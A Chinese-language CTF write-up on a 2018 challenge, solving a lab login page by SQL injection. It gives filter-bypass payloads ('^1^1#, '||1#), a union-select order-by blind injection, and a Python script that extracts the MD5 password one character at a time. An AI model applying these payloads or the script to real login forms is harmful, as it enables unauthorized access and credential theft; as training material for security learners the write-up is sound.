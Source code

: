 ```yaml
---
title: 2018ZJGSCTFwriteup
date: 2018-05-07 10:36:05
tags:
---
```

没人做那就只能自己写了。
<!--more-->
## [LOGIN](http://10.21.13.154:35353/)
### 1.进入网站后是一个登陆界面，先是随便输入用户名和密码，发现弹窗消息。

 ![image](http://ww3.sinaimg.cn/large/0069oIoUgy1fr2kur9kayj30c8041jr8.jpg)

根据提示要拿到flag就必须要先找到username。开始先试了admin等一些常规的用户名发现都不行。那就思考后台php中的sql语句是怎么样的根据绕过sql语句来得到username。
``` sql
select * from admin where username='' and password=''
```
### 2.猜测后台中的语句应该是这样的，那就来构造绕过这个使用' or 1=1#使得where后面的结果为真
返回查询结果。输入测试后发现，or ，=，where等词被过滤了。

  ![image](http://ww1.sinaimg.cn/large/0069oIoUgy1fr2l3u0hu4j30bt03amwz.jpg)

然后就思考另外的方法来使得where后面的条件为真，可以使用这些方法，'^1^1#,'||1#来绕过这些得到两个重要的提示。

   ![image](http://ww4.sinaimg.cn/large/0069oIoUgy1fr2l88x3ihj30c503ha9w.jpg)

   ![image](http://ww1.sinaimg.cn/large/0069oIoUgy1fr2l8p6bxkj30bx037glf.jpg) 
        
知道了password就是flag经过md5加密后的内容那就需要来猜测password的值了
### 3.基于上面有username返回所以是一个回显的注入。那就可以构造如下sql语句来猜测password的名
``` sql
yt_ia_a_handsome_boy' union select 1,2,0x80 order by 3 desc#
```
### 4.由上面提示可以知道password是一串经过md5加密后的16进制字符串利用union select插入一行，并在password
即第三列插入的是16进制的字符串，根据第三列的大小对每行数据进行排序。执行完sql语句，根据页面回显的数据一位一位来猜解password的内容。
显示结果如下：
当插入的16进制值大于password的值会返回如下内容

   ![image](http://ww3.sinaimg.cn/large/0069oIoUgy1fr2ltl5hu9j30bi02ywea.jpg)
        
当插入的内容小于password的值会返回username的值

  ![image](http://ww1.sinaimg.cn/large/0069oIoUgy1fr2lv97wbrj30bq034glf.jpg)
       
### 5.根据上面测试的情况用python写脚本如下
``` python 
# coding:utf-8

import requests

def makeStr(begin,end):
    str=""
    for i in range(begin,end):
        str+=chr(i)
    return str
def getPassword():
    url="http://10.21.13.154:35353/index.php"
    testStr = makeStr(48,127)
    username = "yt_ia_a_handsome_boy' union distinct select 1,2,0x{hex} order by 3 desc#"
    flag = ""
    for  _  in range(32):
        for i in testStr:
            data = {"username":username.format(hex=(flag+i).encode('hex')),"password":'1'}
            res = requests.post(url,data)
            if "yt_ia_a_handsome_boy" not in res.text:
                flag= flag+chr(ord(i)-1)
                print flag
                break
            else:
                print "[*]",i
if __name__== '__main__':
    getPassword()
```
### 6.运行后得到password的值
![image](http://ww3.sinaimg.cn/large/0069oIoUgy1fr2lznt8voj30eo09zjre.jpg)

[MD5j解码](http://www.cmd5.com/)后得到flag

